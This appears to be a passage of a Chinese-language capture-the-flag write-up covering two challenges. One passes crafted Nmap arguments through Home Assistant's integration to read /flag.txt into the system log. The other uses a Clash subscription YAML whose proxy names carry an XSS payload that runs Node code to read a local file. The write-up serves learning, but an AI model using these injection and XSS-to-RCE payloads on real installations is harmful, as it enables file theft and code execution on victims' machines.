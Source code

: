 ## 11. 逝界计划

这题二阶段发了 hint 我才恍然大悟。

一开始先去试了 Nmap，网上搜了一些有关 Nmap 命令注入的资料，比如 `-iL flag.txt` 可以修改目标输入为文件 `flag.txt`。分析 HomeAssistant 代码得知调用 Nmap 使用的是 `Popen`，所以不太可能实现 `nmap blah blah; cat flag.txt` 这种命令注入。

但还是没什么思路，于是就去挨个审计每个集成的代码，然后没啥进展。

最后发现 HomeAssistant 可以查看系统日志，对应系统中文件 `/config/home-assistant.log`，因此我们可以构造一个 nmap 命令使其从 `flag.txt` 读入目标，并将日志打印到 `/config/home-assistant.log`。

大概的命令如下：

```bash
nmap -iL /flag.txt --log-errors -oN /config/home-assistant.log --exclude 172.19.0.2 --reason -v 127.0.0.1/32
```
接着通过 配置 —— 日志 —— 加载完整日志可以看到 nmap 报错：

```
# Nmap 7.93 scan initiated Thu Oct 19 03:54:50 2023 as: nmap -oX - -iL /flag.txt --log-errors -oN /config/home-assistant.log --exclude 172.19.0.2 --reason -v 127.0.0.1/32
Failed to resolve "flag{__try_try_need__}".
Read data files from: /usr/bin/../share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
# Nmap done at Thu Oct 19 03:54:55 2023 -- 0 IP addresses (0 hosts up) scanned in 5.05 seconds
```

## 12. 非法所得

看到 Clash 就去搜了一下，果然是 XSS RCE 复现

### Flag 1

没什么悬念，构造一个 sub.yaml 即可。平台只接受 `pku.edu.cn` 域下的文件，我们可以复用 XSS 题的上传接口。

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=alert(eval(`require("fs").readFileSync("/app/profiles/flag.yml")`));>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=alert(eval(`require("fs").readFileSync("/app/profiles/flag.yml")`));>
    type: select
    proxies:
    - a<img/src="1"/onerror=alert(eval(`require("fs").readFileSync("/app/profiles/flag.yml")`));>
```
